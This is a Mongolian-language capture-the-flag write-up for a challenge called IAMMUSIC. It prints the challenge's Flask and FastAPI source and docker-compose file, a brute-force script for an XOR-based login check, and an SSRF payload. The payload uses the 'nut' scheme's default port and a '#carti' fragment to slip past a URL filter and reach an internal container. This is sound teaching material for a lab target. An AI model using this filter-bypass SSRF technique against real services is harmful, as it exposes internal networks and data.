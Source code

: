 
# IAMMUSIC

## **Хүндрэл:** Hard 


## **Бодолт**  
Уг бодлого нь <b> i_am_music , terminal </b> гэх 2 контайнераас бүрдэнэ.


### **1. i_am_music container**  
```python
from flask import Flask
from os import environ
app =  Flask(__name__)
FLAG = environ.get("FLAG",  "flag{test_flag_for_cool_boys}")
@app.route("/i_am_music")
def  top_secret():
	return FLAG

if __name__ ==  '__main__':
app.run(host='0.0.0.0',  port=3493)
```
Уг контайнерийн <b>secret.py</b>-ийн  <b>/i_am_music </b> path руу ямар нэгэн байдлаар хандаж чадвал flag-ийг авна. Гэвч ийшээ хандахын тулд дотоод сүлжээгээр л хандах боломжтой бөгөөд public хандалт байхгүйг <b>docker-compose.yml</b> -аас харж болно

### **2. Docker-compose.yml**  
Хамгийн сүүлд байх 
```yml
services:
  terminal:
    build:
      context: ./terminal
    ports:
      - 8282:8282
    restart: on-failure
    command: uvicorn main:app --host 0.0.0.0 --port 8282
    environment:
      LOGIN_SECRET_KEY: "1_4@m_mU5ic"
      SESSION_SECRET_KEY: "test"
    networks: 
      default_net:
    deploy:
      resources:
        limits:
          cpus: '1'
          memory: 4G
  
  i_am_music_panel:
    build:
      context: ./i_am_music
    restart: on-failure
    command: python ./secret.py
    environment:
      FLAG: "nest{test}"
    networks: 
      default_net:
    deploy:
      resources:
        limits:
          cpus: '0.5'
          memory: 2G

networks:
  default_net:
    driver: bridge
    ipam:
      config:
        - subnet: 172.30.0.0/16
          gateway: 172.30.0.1
```

Эндээс бидэнд <b> LOGIN_SECRET_KEY </b> өгсөнийг анзаарч болох ба цаашид хэрэг болно. <b>Networks</b> хэсэгт 2 контайнер нэг дотоод сүлжээнд байгаагаар ассан байна. Мөн <b>terminal</b> руу гаднаас хандалт хийж болохоор тохируулагдсан байна. 
### **3. Terminal**  
main.py -д хамгийн эхэнд login хийх хэрэгтэй ба <b>/login</b>  endpoint-ийг ашиглана.
```python
NEED_USERNAME =  "PlayboiCartIAMMUSIC"
NEED_PASSWORD =  "Opium123"
@app.post("/login")
async  def  login(request: Request,  username: str =  Form(...),  password: str =  Form(...)):
	if  (validate(username, LOGIN_SECRET_KEY)  -  validate(password, LOGIN_SECRET_KEY))  ==  5  and NEED_USERNAME in username and NEED_PASSWORD in password:
	request.session["auth"]  =  True
	return  RedirectResponse(url="/terminal",  status_code=303)
	else:
return  JSONResponse({"message":"Try harder, Opium!"})
```
Нэвтрэхийн тулд :
1. username нь "PlayboiCartIAMMUSIC", password нь  "Opium123" string үүдийг агуулах ёстой. Жишээ нь: username "PlayboiCartiIAMMUSIC123" байж болно гол нь "PlayboiCartiIAMMUSIC" гэсэн хэсгээ агуулах ёстой.
2. username , password утгууд validate функцээс ирсэн утгуудын зөрүү нь 5тай тэнцүү байх ёстой.
<br>validate function:
```python
def  validate(value: str,  key: str):
result =  0
for i, c in  enumerate(value):
	result ^=  ord(c)  ^  ord(key[i % len(key)])
	return result
```
Validate функц 2 string-ийн үсэг бүрээр гүйж ascii утгуудыг хооронд XOR үйлдэл хийж эцэст нь ASCII утгыг буцааж байна. Эндээс зөрүү нь 5 гарах username, password утгуудаа bruteforce - дож болохоор харагдаж байна. 
bruteforce script:

```python
import string

alp = """0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~ """
LOGIN_SECRET_KEY = '1_4@m_mU5ic'

def validate(value: str, key: str):
    result = 0
    for i, c in enumerate(value):
        result ^= ord(c) ^ ord(key[i % len(key)])
    return result  # Fixed indentation here

NEED_USERNAME = "PlayboiCartIAMMUSIC"
NEED_PASSWORD = "Opium123"

base_usernames = [NEED_USERNAME + c for c in alp]
base_passwords = [NEED_PASSWORD + c for c in alp]

for u in base_usernames:
    for p in base_passwords:
        res_u = validate(u, LOGIN_SECRET_KEY)
        res_p = validate(p, LOGIN_SECRET_KEY)
        if res_u - res_p == 5:
            print(f"[+] Match found!")
            print(f"[*] Username: {u}")
            print(f"[*] Password: {p}")
            print(f"[DEBUG] XOR username: {res_u}, password: {res_p}")
```
Үр дүнд нь цөөнгүй боломжууд гарч ирсэн ба эндээс нэгийг нь ашиглая:
```
+] Match found!
[*] Username: PlayboiCartIAMMUSIC~
[*] Password: Opium123T
[DEBUG] XOR username: 20, password: 15
```
ng tiim zurag

### **4. SSRF**
Нэвтэрсэний дараа <b>/terminal</b>  endpoint ашиглаж байна.
```python
@app.post("/terminal")
async  def  process_address(request: Request,  address: str =  Form(...)):
	if  not request.session.get("auth"):
		raise  HTTPException(status_code=403,  detail="nah. u arent opium!")
valid_addr, err =  check_address(address)
	if  not err:
		try:
			async  with httpx.AsyncClient(follow_redirects=False)  as client:
				response =  await client.get(valid_addr)
		if response.status_code ==  200:
			content = response.text
		else:
			content =  "Omg! Opium is not 'Opium'ing"
		except httpx.RequestError:
			content =  "That's bad :("
	else:
		content = err
return templates.TemplateResponse("terminal.html",  {"request":request,  "content": content})
```
Дээрх кодын хийж буй үйлдэл нь:
1.Хэрэглэгчээс URL авч тухайн URL руу хүсэлт явуулна.
2.check_address функцээс ямар нэгэн алдаа ирээгүй тохиолдолд тухайн веб URL руу хандана.
Эндээс бид зөвхөн дотоод сүлжээнээс хандах <b>i_am_music</b> контайнер руу хандах боломжтой гэдгийг анзаарч болно.
validate function:
```python
def check_address(address: str):
    parsed_addr = urlparse(address)
    
    parsed_addr = parsed_addr._replace(query="")
    if not "carti" in parsed_addr.geturl():
        return None, "Only carti addresses allowed!"
    if parsed_addr.port:
        return None, "No explicit ports allowed!"
    
    parsed_scheme = parsed_addr.scheme
    port = getservbyname(parsed_scheme)
    
    if port == 443:
        parsed_addr = parsed_addr._replace(scheme="https")
    else:
        parsed_addr = parsed_addr._replace(scheme="http")
        
    clean_addr = f"{parsed_addr.scheme}://{parsed_addr.netloc}:{port}{parsed_addr.path}"

    if len(clean_addr) > 33:
        return None, "Too long didn't read lol -_-"
        
    return clean_addr, None
```
 Уг функцийн нөхцөл:
 1."carti" string агуулсан байх ёстой
 2.Өөрөө port бичихгүй default port ашиглана. Жишээ нь : http://aa.com байвал 80 гэж үзнэ . ssh байвал 22 гэж үзнэ. http://aa:8000.com байвал үүнийг алдаа гэж үзнэ.
 3.URL-ийн урт 33 давахгүй.
 
### **4. Final payload**
172.30.0.2 хаягийн 3493 порт руу хандаж чадвал flag авна.
3493 нь NUT протоколын default дугаар бөгөөд үүнийг ашиглан payload үүсгэнэ.
```
nut://172.30.0.2/i_am_music
```
Дээрх payload хэдийгээр зөв ч "carti" гэх утгыг агуулах ёстой.  '#' араас залгасан утга хаяганд нөлөөлөхгүй тул доорх payload-ийг ашиглаж болно.
```
nut://172.30.0.2/i_am_music#carti
```
Дараах URL-ийг terminal-д оруулсанаар дотоод сүлжээнд байгаа контейнороос flag авч чадна .
## **Туг:**  
    nest{is_IAMMUSIC_MID_or_MEH??}